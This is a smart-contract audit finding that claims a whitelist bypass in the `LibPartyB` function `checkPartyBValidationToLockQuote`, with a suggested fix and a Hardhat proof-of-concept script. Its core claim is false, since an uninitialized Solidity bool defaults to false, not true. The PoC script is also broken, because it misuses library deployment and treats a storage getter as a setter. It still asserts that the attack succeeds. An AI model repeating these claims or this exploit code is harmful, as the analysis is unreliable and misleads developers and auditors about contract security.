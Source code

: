Passive Olive Unicorn

high

# Whitelist bypass allows unauthorized addresses to lock quotes in `LibPartyB` through flawed `checkPartyBValidationToLockQuote` logic
## Summary

The check for valid PartyB in the `LibPartyB` function, `checkPartyBValidationToLockQuote`, can be bypassed by a malicious actor, allowing non-whitelisted addresses to act as PartyB for a given quote.

## Vulnerability Detail

In the `LibPartyB.sol` contract, the `checkPartyBValidationToLockQuote` function is designed to validate whether the sender (PartyB) is allowed to lock a quote or not. A design flaw exists in the whitelisting logic that could enable malicious actors to bypass this validation.

The vulnerability stems from the `isValidPartyB` boolean variable. **If there's no whitelisted PartyB, this variable defaults to `true`**. While this might seem harmless at a glance, when combined with the following for loop that inspects whitelisted addresses, an issue emerges.

```solidity
bool isValidPartyB;
...
if (quote.partyBsWhiteList.length == 0) {
...
} else {
 for (uint8 index = 0; index < quote.partyBsWhiteList.length; index++) {
...
 }
}
require(isValidPartyB, "PartyBFacet: Sender isn't whitelisted");
```

> The logic operates in this manner:

1. **If the `quote.partyBsWhiteList` is empty, any address aside from Party A can be acknowledged as a valid Party B**.
2. **When the whitelist is populated, the function verifies if the sender is among the whitelisted entities**.

When a quote lists PartyB addresses and the malicious actor isn't among them, the loop doesn't alter the `isValidPartyB` flag. This is due to the loop only adjusting the value of `isValidPartyB` when a match with the sender's address is identified. **Should there be no match, the flag retains its initial value, which defaults to `true`. Consequently, an address that isn't on the whitelist can progress without being blocked.**

To illustrate, **consider a situation where the whitelist contains addresses, but the sender's address isn't among them. Under these circumstances, the `isValidPartyB` flag's value remains at its default (i.e., `true`). Although the logic should block non-whitelisted addresses from locking a quote, it fails to do so because it doesn't correctly handle situations where the sender's address is absent from the whitelist.**

In practical terms, **a malicious actor can exploit this oversight. The absence of an explicit `false` default value for `isValidPartyB` creates an opportunity for unauthorized actions. In its current state, if `quote.partyBsWhiteList` contains addresses and the sender's address isn't found, `isValidPartyB` retains its `true` default. This flaw permits any address to act as PartyB, even if it's not whitelisted**. This is not merely a hypothetical vulnerability but a tangible loophole in the contract that could jeopardize the protocol's integrity.

## Impact

The risk of financial losses cannot be overstated. If an attacker locks a quote they shouldn't have access to, they can manipulate or even halt legitimate transactions, causing financial damage to both PartyA and genuine PartyB participants. This undermines the trust in the entire system, which could lead to an outflow of users and financial assets.

## Code Snippet

https://github.com/sherlock-audit/2023-08-symmetrical/blob/main/symmio-core/contracts/libraries/LibPartyB.sol#L38-L50

## Tool used

Manual review.

## Recommendation

To fix this issue, explicitly set the `isValidPartyB` variable to `false` by default. Only set it to `true` when a match is found in the whitelist. This ensures that any sender not in the whitelist will fail validation, as intended.

```solidity
bool isValidPartyB = false;
if (quote.partyBsWhiteList.length == 0) {
 require(msg.sender != quote.partyA, "PartyBFacet: PartyA can't be partyB too");
 isValidPartyB = true;
} else {
 for (uint8 index = 0; index < quote.partyBsWhiteList.length; index++) {
 if (msg.sender == quote.partyBsWhiteList[index]) {
 isValidPartyB = true;
 break;
 }
 }
}
require(isValidPartyB, "PartyBFacet: Sender isn't whitelisted");
```

This simple change ensures that **unless a match is explicitly found or there's no whitelist, an address cannot be considered a valid PartyB**.

## Proof Of Concept

1. Deploy the `QuoteStorage.sol`, `LibLockedValues.sol`, and `LibPartyB.sol` contracts on a mainnet fork.
2. Use a PartyA address to create a quote.
3. Populate the whitelist for PartyB with certain specific addresses but exclude the attacker's address.
4. Utilize the attacker's address to invoke the `checkPartyBValidationToLockQuote` function.
5. Observe that even without the attacker's address on the whitelist, the function permits the attacker to lock the quote, demonstrating the vulnerable logic.

> **POC script**:

```javascript
const hre = require("hardhat");

async function main() {
    // Deploy contracts
    const QuoteStorage = await hre.ethers.getContractFactory("QuoteStorage");
    const quoteStorage = await QuoteStorage.deploy();
    await quoteStorage.deployed();
    
    const LibLockedValues = await hre.ethers.getContractFactory("LibLockedValues");
    const libLockedValues = await LibLockedValues.deploy();
    await libLockedValues.deployed();

    const LibPartyB = await hre.ethers.getContractFactory("LibPartyB", {
        libraries: {
            QuoteStorage: quoteStorage.address,
            LibLockedValues: libLockedValues.address
        }
    });
    const libPartyB = await LibPartyB.deploy();
    await libPartyB.deployed();

    console.log("Contracts deployed!");

    // Define PartyA and PartyB addresses
    const [deployer, partyA, partyB1, attacker] = await hre.ethers.getSigners();

    // Create a new quote
    const newQuoteId = (await quoteStorage.lastId()).add(1);
    const exampleQuote = {
        id: newQuoteId.toNumber(),
        partyBsWhiteList: [partyB1.address], // Only PartyB1 is whitelisted, attacker is not.
        // ... (fill in the rest of the required properties for the Quote)
        symbolId: 1,
        positionType: 0,
        orderType: 0,
        openedPrice: 10,
        initialOpenedPrice: 10,
        requestedOpenPrice: 10,
        marketPrice: 10,
        quantity: 10,
        closedAmount: 0,
        initialLockedValues: {
            cva: 0,
            mm: 0,
            lf: 0
        },
        lockedValues: {
            cva: 10,
            mm: 10,
            lf: 10
        },
        maxFundingRate: 0,
        partyA: partyA.address,
        partyB: deployer.address,
        quoteStatus: 0,
        avgClosedPrice: 0,
        requestedClosePrice: 0,
        quantityToClose: 0,
        parentId: 0,
        createTimestamp: Math.floor(Date.now() / 1000),
        statusModifyTimestamp: Math.floor(Date.now() / 1000),
        lastFundingPaymentTimestamp: Math.floor(Date.now() / 1000),
        deadline: Math.floor(Date.now() / 1000) + 86400,
        tradingFee: 0
    };

    await quoteStorage.quotes(newQuoteId, exampleQuote);
    console.log("Quote created with ID:", newQuoteId);

    // Simulate the attacker trying to lock the quote
    try {
        await libPartyB.connect(attacker).checkPartyBValidationToLockQuote(newQuoteId, 0);
        console.log("Attacker was able to lock the quote, exploiting the vulnerability!");
    } catch (error) {
        console.log("Attacker was unable to lock the quote (this should not happen).");
    }
}

main()
    .then(() => process.exit(0))
    .catch(error => {
        console.error(error);
        process.exit(1);
    });
```

The attacker should now be able to lock the quote that they shouldn't have access to, thus highlighting the loophole in the code, making it evident that this is a drastic vulnerable point and a concrete vector that needs immediate attention.
